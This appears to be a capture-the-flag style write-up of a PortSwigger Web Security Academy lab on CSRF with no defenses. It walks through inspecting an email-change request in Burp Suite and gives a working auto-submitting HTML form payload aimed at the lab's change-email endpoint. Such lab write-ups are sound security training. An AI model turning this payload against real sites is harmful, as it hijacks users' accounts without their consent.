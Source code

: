 # Lab: CSRF vulnerability with no defenses

> Lab Objective: craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
> Note: My Login Credentials `wiener:peter`

- Firstly, I'll login with my Login Credentials `wiener:peter` (as a normal user).
  ![1st Screenshot](./Photos/1.png)

- Then try to change my email (to `test@gmail.com`).
  ![2nd Screenshot](./Photos/2.png)

- When viewing the request of changing the email in Burp Suite, I've noticed that the conditions to a successful CSRF attack are fulfilled, which are:

  - **_A Relevant Action_** (which is email change).
  - **_Cookie-Based Session Handling_** (the application verify the user only via session cookies).
  - **_No Unpredictable Request Parameters_** (there is only one parameter which is the `email`).
  - The Request:
    ![3rd Screenshot](./Photos/3.png)

- Therefore, I can host the following payload on a server I control, and when the victim visits that site his email will get changed.

  - The Payload:

  ```html
  <body>
    <form
      method="POST"
      action="https://0afe00c603d85f2e826f0c6000a80098.web-security-academy.net/my-account/change-email"
    >
      <input type="email" name="email" value="changed-email@test.com" hidden />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
  ```

- And Finally the lab is solved.
  ![4th Screenshot](./Photos/4.png)

---
